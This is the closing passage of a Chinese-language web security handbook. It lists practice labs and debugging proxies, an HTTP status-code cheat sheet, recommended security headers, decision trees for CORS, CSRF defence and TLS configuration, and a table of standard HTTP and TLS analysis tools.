| 靶场 | URL | 特点 |
|:----|:----|:-----|
| PortSwigger Web Security Academy | portswigger.net/web-security | 全面的免费Web安全教程 |
| OWASP WebGoat | github.com/WebGoat/WebGoat | 经典Java Web漏洞环境 |
| DVWA | github.com/digininja/DVWA | PHP漏洞练习 |
| HackTheBox | hackthebox.com | CTF风格渗透测试 |
| TryHackMe | tryhackme.com | 引导式安全学习 |
| PentesterLab | pentesterlab.com | 系统化Web安全练习 |

### 11.4 调试代理

| 工具 | 平台 | 特点 |
|:----|:----|:-----|
| Burp Suite | Java | 最强大的Web代理 |
| Charles | Java | 友好界面 |
| Fiddler | .NET | Windows原生 |
| mitmproxy | Python | CLI+脚本化 |
| Proxyman | macOS | 原生macOS应用 |

---

## 十二、速查总表

### 12.1 HTTP状态码速查

```
1xx 信息
   100 Continue
   101 Switching Protocols

2xx 成功
   200 OK
   201 Created
   204 No Content

3xx 重定向
   301 Moved Permanently (GET)
   302 Found (GET)
   307 Temporary Redirect (保持方法)
   308 Permanent Redirect (保持方法)

4xx 客户端错误
   400 Bad Request
   401 Unauthorized
   403 Forbidden
   404 Not Found
   405 Method Not Allowed
   408 Request Timeout
   413 Payload Too Large
   429 Too Many Requests

5xx 服务端错误
   500 Internal Server Error
   502 Bad Gateway
   503 Service Unavailable
   504 Gateway Timeout
```

### 12.2 安全首部最佳实践

```
# 最低配置 (所有网站)
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Referrer-Policy: strict-origin-when-cross-origin

# 中等配置
+ Strict-Transport-Security: max-age=31536000
+ Content-Security-Policy: default-src 'self'

# 严格配置 (适合安全敏感应用)
+ Content-Security-Policy: (nonce-based strict CSP)
+ Permissions-Policy: geolocation=()
+ Cross-Origin-Opener-Policy: same-origin
+ Cross-Origin-Embedder-Policy: require-corp
```

### 12.3 CORS决策树

```
CORS请求?
├─ 简单请求 → 检查 Access-Control-Allow-Origin
│   ├─ 匹配 → 允许
│   └─ 不匹配 → 拒绝
└─ 非简单请求 → 发送OPTIONS预检
    ├─ 检查 Access-Control-Allow-Origin
    ├─ 检查 Access-Control-Allow-Methods
    ├─ 检查 Access-Control-Allow-Headers
    ├─ 全部匹配 → 发送实际请求
    └─ 任一不匹配 → 拒绝
```

### 12.4 CSRF防护决策树

```
CSRF防护?
├─ SameSite Cookie 可用?
│   ├─ 是 → SameSite=Lax 或 Strict
│   └─ 否 → 继续
├─ 使用 CSRF Token?
│   ├─ 是 → 在表单/Header中嵌入Token
│   └─ 否 → 继续
├─ 验证 Referer/Origin?
│   ├─ 是 → 检查白名单
│   └─ 否 → 继续
└─ 使用自定义请求头?
    └─ (X-Requested-With: XMLHttpRequest)
```

### 12.5 TLS配置决策树

```
需要TLS?
├─ 旧系统兼容 (IE 8/Windows XP)?
│   ├─ 是 → TLS 1.0 (不推荐)
│   └─ 否 → 继续
├─ 性能优先?
│   ├─ 是 → TLS 1.3 + CHACHA20-POLY1305
│   └─ 否 → 继续
├─ 安全优先?
│   ├─ 是 → TLS 1.3 only, PFS, AEAD only
│   └─ 否 → TLS 1.2 + 1.3
└─ 最终配置
    ├─ 协议: TLS 1.2 + 1.3 (禁用SSL/TLS 1.0/1.1)
    ├─ 套件: ECDHE + AEAD (禁用CBC/RC4/3DES/EXPORT)
    ├─ 证书: ≥2048-bit RSA 或 ECDSA P-256
    └─ HSTS: max-age=31536000
```

### 12.6 推荐工具

| 工具 | 用途 | 安装 |
|:----|:-----|:-----|
| curl | HTTP请求 | `apt install curl` |
| httpie | 友好HTTP | `pip install httpie` |
| nmap | 端口扫描 | `apt install nmap` |
| openssl | TLS分析 | `apt install openssl` |
| testssl.sh | TLS检查 | 下载运行 |
| whatweb | Web指纹 | `gem install whatweb` |
| wappalyzer | 技术栈识别 | 浏览器插件 |
| Burp Suite | Web代理 | 下载安装 |
| OWASP ZAP | Web扫描 | 下载安装 |
| mitmproxy | 中间人代理 | `pip install mitmproxy` |

---

> **参考资源**
>
> - RFC 7230-7235 (HTTP/1.1)
> - RFC 7540 (HTTP/2)
> - RFC 9000 (HTTP/3 QUIC)
> - RFC 8446 (TLS 1.3)
> - OWASP Cheat Sheet Series
> - MDN Web Docs: HTTP

[OWASP Top 10 速查表](08-owasp-top10.md)